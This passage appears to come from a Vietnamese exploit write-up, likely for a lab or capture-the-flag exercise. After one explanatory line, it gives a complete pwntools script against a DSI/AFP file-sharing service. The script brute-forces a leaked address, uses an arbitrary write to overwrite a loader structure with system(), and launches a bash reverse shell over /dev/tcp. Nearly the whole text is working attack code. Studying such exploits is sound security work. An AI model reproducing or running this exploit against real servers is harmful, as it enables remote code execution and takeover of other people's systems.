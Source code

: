 - Khai thác local (Vì các giá trị libc thử liên tục lên cho dù đã thử đúng địa chỉ libc rồi nhưng payload vẫn tiếp tục chạy thử do để bật được reverse shell cần gọi được hàm exit() - đã bị ta ghi đè rtld mà khi đó thời gian chờ thoát khá lâu nên phỉa đợi một lúc mới có revershell được trả về).

```c
#!/usr/bin/env python3
from pwn import *
context(arch="amd64", os="linux", endian="little", log_level="debug")

ip   = "127.0.0.1"
port = 5566
libc = ELF("./libc.so.6")

def genDSI(data):
    dsi_header = b""
    dsi_header += b"\x00"  # "request" flag
    dsi_header += b"\x04"  # open session command
    dsi_header += b"\x00\x01"  # request id
    dsi_header += p32(0)  # data offset
    dsi_header += p32(len(data), endian="big")
    dsi_header += p32(0)  # reserved
    dsi_header += data
    return dsi_header

def arbitraryWrite(io,addr,data):
    payload  = b'\x01'+ p8(0x18)+ b'a'*0x10 + p64(addr)
    io.send(genDSI(payload))
    io.recv()
    io.send(genDSI(data))

def bruteForce():
    leak_addr = b""
    while len(leak_addr) < 6:
        for i in range(255, -1, -1):
            io = remote(ip, port)
            payload = b'\x01'+ p8(0x10+len(leak_addr)+1)+ b'a'*0x10 + leak_addr + p8(i)
            io.send(genDSI(payload))
            try:
                a = io.recv()
                leak_addr += p8(i)
                log.success('Find! {}'.format(hex(i)))
                io.close()
                break
            except:
                io.close()
    return u64(leak_addr.ljust(8, b'\x00'))

leak_addr = bruteForce()
log.success('################## Leak: ' + hex(leak_addr) + ' ##################')
log.info('START TRY LIBC')
leak_addr = leak_addr & 0xffffff000000

for i in range(0x0000000,0xffff000,0x1000):
    libc.address = leak_addr - i
    log.success('Try libc base address: ' + str(hex(libc.address)))
    rtld = libc.address + 0xed4060
    cmd = b'bash -c "bash -i >& /dev/tcp/127.0.0.1/1234 0<&1"'
    try:
        io = remote(ip,port)
        arbitraryWrite(io,rtld+2312,cmd.ljust(0x5f8,b'\x00')+p64(libc.symbols['system']))
        io.close()
    except:
        io.close()
```
